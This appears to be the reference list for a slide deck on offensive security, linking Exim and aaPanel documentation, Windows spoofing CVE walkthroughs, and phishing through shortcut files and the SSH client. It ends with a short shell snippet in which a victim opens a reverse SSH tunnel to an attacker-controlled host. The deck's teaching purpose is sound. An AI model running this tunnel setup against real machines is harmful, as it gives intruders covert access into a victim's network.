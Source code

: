 Slide6:
https://www.exim.org/exim-html-current/doc/html/spec_html/ch-building_and_installing_exim.html
https://www.aapanel.com/docs/#/3?page_id=178

Slide13:
https://x.com/CICADA8Research/status/1865676412444967384

Slide14-15:
https://vk.com/video-221945088_456239438

Slide16:
https://www.rbtsec.com/blog/cve-2024-21320-windows-themes-spoofing-vulnerability-walkthrough/
https://blog.0patch.com/2024/10/we-patched-cve-2024-38030-found-another.html

Slide17:
https://link.springer.com/article/10.1007/s10207-021-00548-5
https://posts.specterops.io/phishing-with-dynamite-7d33d8fac038

Slide18:
https://redsiege.com/blog/2024/04/sshishing-abusing-shortcut-files-and-the-windows-ssh-client-for-initial-access/
https://badoption.eu/blog/2023/09/28/ZipLink.html

```shell
attacker> sudo /etc/init.d/ssh start
attacker> useradd -M -N -d /dev/null -s /bin/false proxy
attacker> passwd proxy
victim> ssh proxy@attacker -N -R 1337
```